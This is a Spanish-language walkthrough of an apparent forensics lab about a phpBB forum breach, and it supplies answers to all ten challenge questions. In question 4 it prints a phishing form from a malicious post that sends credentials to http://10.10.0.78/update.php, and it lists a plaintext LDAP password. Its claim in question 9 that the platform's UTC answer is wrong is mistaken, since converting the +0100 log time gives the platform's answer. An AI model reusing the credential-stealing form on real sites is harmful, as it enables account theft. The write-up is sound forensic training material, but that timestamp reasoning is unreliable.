# **Descripción**

La temática de este lab es simple, un contratista externo accedió al foro interno y robó las credenciales del usuario administrador, luego de varias operaciones adicionales, el atacante logro descargar una backup de la base de datos.

---

## **Artefactos**

Para trabajar con este lab, la plataforma proporciona el archivo `bumblebee.zip` con los siguientes artefactos:

- `access.log`: Un archivo log que registra los eventos relacionados con el servidor web.
- `phpbb.sqlite3`: Una base de datos con formato SQLite.

---

## **Herramientas**

La única herramienta necesaria para este lab es [DB Browser for SQLite](https://sqlitebrowser.org), esta utilidad se servirá para explorar la base de datos `phpbb.sqlite3`.

El archivo `access.log` es básicamente un archivo de texto, por lo que se puede manipular con cualquier terminal.

---

# **Preguntas**

## **1. *What was the username of the external contractor?***

La base de datos dispone de tres tablas que hacen referencia a los usuarios.



De estas tablas, la que registra los nombres de usuario es `phpbb_users`.



De todos los usuarios, solo los últimos dos tienen la palabra `contractor` en el email.



Se puede determinar el usuario correcto en base a su actividad, utilizando el campo `user_lastvisit`.



Teniendo en cuenta que el primer usuario está inactivo, el nombre de usuario del contratista externo es `apoole1`.

---

## **2. *What IP address did the contractor use to create their account?***

En la misma tabla `phpbb_users` se registran las direcciones IP de los usuarios.



La dirección IP que el contratista externo utilizó para crear su cuenta fue `10.10.0.78`.

---

## **3. *What is the post_id of the malicious post that the contractor made?***

La tabla relacionada con los posts es la siguiente:


Para determinar el ID del post malicioso se puede utilizar la IP de la pregunta anterior.



El post malicioso tiene como ID el número `9`.

---

## **4. *What is the full URI that the credential stealer sends its data to?***

Dentro de la misma tabla `phpbb_post` se encuentra un campo llamado `post_text`, que en el caso del post malicioso, contiene código HTML.



En la web [Code Beautify](https://codebeautify.org/htmlviewer) se puede formatear el código para representarlo de forma más legible.



La vista renderizada muestra un clon del foro en donde menciona que la sesión caducó y que es necesario iniciar sesión nuevamente.

Relacionado con este inicio se sesión, dentro del código HTML se encuentra el siguiente formulario:

```html
<form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
```

La URL que utilizó el atacante para recibir las credenciales fue `http://10.10.0.78/update.php`.

---

## **5. *When did the contractor log into the forum as the administrator? (UTC)***

Los logs se registran en la tabla `phpbb_log`.


En esta tabla se registran las distintas operaciones realizadas por los usuarios, y una forma de filtrarlas es utilizando la dirección IP del contratista.



En este caso, el atacante inició sesión como administrador correctamente, pero la fecha esta en formato Unix.

Con la función `datetime()` se puede convertir este dato en un formato legible.

```sql
datetime("log_time", "unixepoch")
```

La fecha y hora de la operación luego de la conversión es la siguiente:



El contratista inició sesión en el foro como administrador el `26/04/2023 10:53:12`.

---

## **6. *In the forum there are plaintext credentials for the LDAP connection, what is the password?***

La configuración de LDAP se encuentra en la tabla `phpbb_config`.


De todas las configuraciones establecidas en la tabla, `ldap_password` tambien se encuentra en texto plano.



La contraseña que se encuentra en las configuraciones LDAP es `Passw0rd1`.

---

## **7. *What is the user agent of the Administrator user?***

El archivo `access.log` registra los eventos relacionados con la web.

Cada evento tiene el siguiente formato:

```
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

Las dos columnas relevantes en este caso son la primera (la dirección IP) y la última (el User-Agent).

Para filtrar los eventos relacionados con el administrador, es necesario disponer de su dirección IP. Esta dirección se puede obtener de la misma forma que en la pregunta 2.



Teniendo la IP, se puede utilizar el siguiente comando para filtrar todos los User-Agent relacionados con el administrador:

```bash
grep '10.255.254.2' access.log | cut -d '"' -f 6 | sort -u
```

Quitando las repeticiones, el User-Agent del usuario administrador es el siguiente:

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
```

---

## **8. *What time did the contractor add themselves to the Administrator group? (UTC)***

Al igual que en la pregunta 5, esta información se obtiene de la tabla `phpbb_log`.



El contratista se añadió a si mismo al grupo administrador el `26/04/2023 10:53:51`.

---

## **9. *What time did the contractor download the database backup? (UTC)***

Retomando con el archivo `access.log`, el primer evento es el siguiente:

```
10.10.0.78 - - [25/Apr/2023:12:07:39 +0100] "GET / HTTP/1.1" 200 4205 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0"
```

La cadena entre corchetes registra la fecha y hora en la cual se realizo la petición.

Teniendo esto en cuenta, dentro del archivo log se encuentra el siguiente evento:

```
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

De forma simplificada, este evento significa que se realizó una petición GET al recurso `backup_1682506471_dcsr71p7fyijoyq8.sql.gz` el `26/04/2023 12:01:38`.

Por lo cual, el contratista descargo la copia de la base de datos el `26/04/2023 12:01:38`

> **Importante:** Existe un error en la plataforma con respecto a la respuesta correcta de esta pregunta. La fecha y hora según el archivo log es `26/04/2023 12:01:38` pero la plataforma toma como válida `26/04/2023 11:01:38`.

---

## **10. *What was the size in bytes of the database backup as stated by access.log?***

Por último y siguiendo con el archivo log, el evento en donde se produjo la descarga fue:

```
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

En la cadena, después del código de estado de la petición (`200`), se encuentra el peso del recurso en bytes (`34707`).

El peso en bytes del backup de la base de datos es `34707`.
